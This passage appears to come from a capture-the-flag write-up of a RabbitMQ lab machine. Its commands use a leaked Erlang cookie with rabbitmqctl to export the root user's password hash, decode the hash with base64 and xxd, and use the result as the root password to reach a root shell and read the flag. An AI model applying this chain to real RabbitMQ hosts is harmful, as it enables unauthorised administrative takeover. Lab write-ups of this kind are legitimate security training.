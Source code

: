 <h3>/etc/hosts</h3>

```bash
TargetIP   cloudsite.thm storage.cloudsite.thm forge
```

<h3>rabbitmqctl | list_users</h3>

```bash
:~/RabbitStore# sudo rabbitmqctl --erlang-cookie 'WV9DEQ1Vp6jBplIs' --node rabbit@forge list_users
Listing users ...
user	tags
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.	[]
root	[administrator]
```

```bash
:~/RabbitStore# sudo rabbitmqctl --erlang-cookie 'WV9DEQ1Vp6jBplIs' --node rabbit@forge export_definitions /tmp/definitions.json
Exporting definitions in JSON to a file at "/tmp/definitions.json" ...
root@ip-10-10-177-131:~/RabbitStore# cat /tmp/definitions.json | jq '.users[] | select(.name == "root")'
{
  "hashing_algorithm": "rabbit_password_hashing_sha256",
  "limits": {},
  "name": "root",
  "password_hash": "49........aiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF",
  "tags": [
    "administrator"
  ]
}
```



```bash
:~/RabbitStore# echo -n '49........aiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF' | base64 -d | xxd -p -c 100
e3d7ba85295d1d16a2617df6f7e6630527ff......5c43b3f6ec614811ed194f98073585
```

```bash
e3d7ba85295d1d16a2617df6f7e6630527ff......5c43b3f6ec614811ed194f98073585

e3d7ba85

295d1d16a2617df6f7e6630527ff......5c43b3f6ec614811ed194f98073585
```


```bash
azrael@forge:/var/lib/rabbitmq$ su root
su root
Password: 295d1d16a2617df6f7e6630527ff......5c43b3f6ec614811ed194f98073585
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
eabf7a0b05d3f........465d2fd0852
```
